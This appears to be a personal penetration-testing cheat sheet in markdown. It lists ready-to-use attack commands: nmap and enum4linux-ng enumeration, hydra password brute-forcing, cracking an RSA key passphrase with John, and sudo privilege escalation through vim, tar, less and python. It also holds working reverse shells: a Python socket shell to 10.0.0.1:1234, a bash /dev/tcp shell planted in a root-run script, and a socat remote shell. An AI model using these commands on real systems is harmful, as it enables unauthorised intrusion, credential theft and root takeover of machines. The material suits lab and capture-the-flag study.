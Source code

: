 # NMAP Basic scan with outfile 

nmap -sC -sV -oN /path/to/file ip

# Enum4linux-ng


**_enumerating smb clients and servers_**

_use example_

python3 enum4linux-ng.py -U -A -R ip

# Hydra example

hydra -l username -P /path/to/wordlist proto://ip

# Cracking the passphrase of an rsa key with John

sh2john.py rsa_file > file.txt
john file.txt

# Checkin for suid on a system run the following commands
find / -perm -u=s -type f 2>/dev/null

# Different ways to read a file

while read line; do echo $line done; < file
cat file
grep . file


# Pentestmonkey reverse shell examples
_in python it would be, note that if the machine doesnt have python2 installed(modern machines) it works with python3_

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


# Privilege scalation with vim

there are 2 ways of running a shell as root with vim

## _First option_
sudo vim 
 -> :set shell=/bin/sh
 -> :shell

## _Second option_
sudo vim -c ':!/bin/sh'


# Privilege scalation with tar

If the user is allowed in the sudoers file we can easily become root by running _sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh_

# Using and understanding netcat

to set up a listening port in nc

nc -lnvp portnumber

# Read pcaps

Could use wireshark

If you are looking for a password strings will just do the job for it and it will provide more clarity

# Bash remote shell

echo 'bash -c "bash -i >& /dev/tcp/ip/port 0>&1"' > /path/to/script run by root

# Privesc with less
you can run less with _sudo_ against a file and enter in less's command mode by typing !/bin/sh

Example

sudo less file.log
!/bin/sh

# GTFOs bin with python

In order to get a privileged shell with python (only if it has the suid set) we can run

python -c 'import os; os.system("/bin/sh")'

# Stable shell with pty

When we stabblish the first shell with nc it tends not to have a pty which for some porcesses it can be stressful

to solve that you can run this python adhoc command python -c 'import pty; pty.spawn("/bin/bash")' which gets you a tty that lets you freely run all the commands you need without prompting any error nor warning about not having a tty


# Socat GTFO bin

To get a remote shell on a machine using socat you need to run this
this is run on your local machine

socat file:`tty`,raw,echo=0 tcp-listen:$port

this is run on the remote machine
sudo /usr/bin/socat tcp-connect:$yourIP:$yourport exec:sh,pty,stderr,setsid,sigint,sane
